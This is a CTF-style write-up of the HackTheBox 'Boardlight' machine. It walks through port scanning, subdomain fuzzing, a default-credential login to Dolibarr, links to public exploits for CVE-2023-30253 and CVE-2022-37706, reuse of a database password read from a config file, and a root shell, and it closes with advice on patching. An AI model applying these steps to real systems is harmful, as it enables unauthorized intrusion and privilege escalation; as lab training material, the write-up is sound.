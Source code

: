 ```yaml
---
title: "HackTheBox - Boardlight"
author: Nasrallah
description: ""
date: 2024-09-29 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, cve, rce]
img_path: /assets/img/hackthebox/machines/boardlight
image:
    path: boardlight.png
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---

[Boardlight](https://hacktheboxltd.sjv.io/Nasrallah?u=https://app.hackthebox.com/machines/boardlight) from [HackTheBox](https://hacktheboxltd.sjv.io/anqPJZ).

## **Enumeration**

### nmap

We start an Nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.11.11
Host is up (0.48s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)

```

We found two open ports, 22 running OpenSSH on Ubuntu and port 80 is an Apache web server also on Ubuntu.

### Web

Let's navigate to the web page.

![webpage](1.png)

Nothing really interesting here, but we find the hostname `board.htb`, let's add that to `/etc/hosts` file.

Let's run a subdomain scan.

```terminal
$ ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://10.10.11.11/ -H "Host: FUZZ.board.htb"  -fs 15949

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.11/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.board.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 15949
________________________________________________

crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 221ms]
```

We found the subdomain `crm.board.htb` , let's add it to `/etc/hosts` file and navigate to it.

![subdomain](2.png)

It's a login page for `dolibarr` version 17.0.0

I tried `admin:admin` and managed to login

![adminpage](3.png)

Searching on google we find that this version is vulnerable to php code injection [CVE-2023-30253](https://nvd.nist.gov/vuln/detail/CVE-2023-30253).

## **Foothold**

I found the following exploit that we can use to get a reverse shell <https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253>

![revs](4.png)

## **Privilege Escalation**

I asked chatgpt where does dolibarr store database credentials and it told me at `/dolibarr/htdocs/conf/conf.php`

```terminal
www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ cat conf.php
<?php                         
//                           
// File generated by Dolibarr installer 17.0.0 on May 13, 2024
//                            
// Take a look at conf.php.example file for an example of conf.php file
// and explanations for all possibles parameters.
//                                     
$dolibarr_main_url_root='http://crm.board.htb'; 
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';      
$dolibarr_main_db_port='3306';    
$dolibarr_main_db_name='dolibarr';                                                             
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';
```

We indeed found a password.

Let's try switching to user `larissa`.

```terminal
www-data@boardlight:/home$ su larissa
Password: 
larissa@boardlight:/home$ 
```

Now let's run linpeas and see what we can find.

![linpeas](5.png)

We found an SUID binary that's unknown.

A quick search on google we find that this is vulnerable to privilege escalation [CVE-2022-37706](https://nvd.nist.gov/vuln/detail/CVE-2022-37706).

The exploit I'll be using can be found here <https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit>

We copy the exploit to the machine and run it.

```terminal
larissa@boardlight:/tmp$ ./exploit.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)
```

We got root!

## **Prevention and Mitigation**

### CVE-2023-30253 & CVE-2022-37706

We found an external and internal software outdated with publicly available exploits.

Update to the latest vendor patch and maintain an active patch schedule for any patches that may be released in the future.

## **References**

<https://nvd.nist.gov/vuln/detail/CVE-2022-37706>

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
